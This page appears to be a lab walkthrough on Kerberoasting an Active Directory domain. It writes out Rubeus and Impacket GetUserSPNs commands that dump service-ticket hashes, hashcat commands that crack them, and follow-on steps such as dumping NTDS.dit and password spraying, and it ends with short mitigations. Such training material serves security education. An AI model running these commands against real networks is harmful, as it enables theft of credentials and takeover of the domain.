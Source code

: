 # Kerberoasting with Rubeus & Impacket

### **Introduction**

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.



### **Method 1 : Kerberoasting with Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

<figure><img src="../../../../../../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash



### **Method 2 - Impacket**

#### Impacket Installation

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1. `cd /opt` navigate to your preferred directory to save tools in
2. download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19
3. `cd Impacket-0.9.19` navigate to the impacket directory
4. `pip install .` - this will install all needed dependencies

#### Kerberoasting w/ Impacket

1. `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located
2. `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.15.51 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash



### **What Can a Service Account do**

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.



### **Kerberoasting Mitigation**

#### Strong Service Passwords

If the service account passwords are strong then kerberoasting will be ineffective

#### Don't Make Service Accounts Domain Admins

Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.


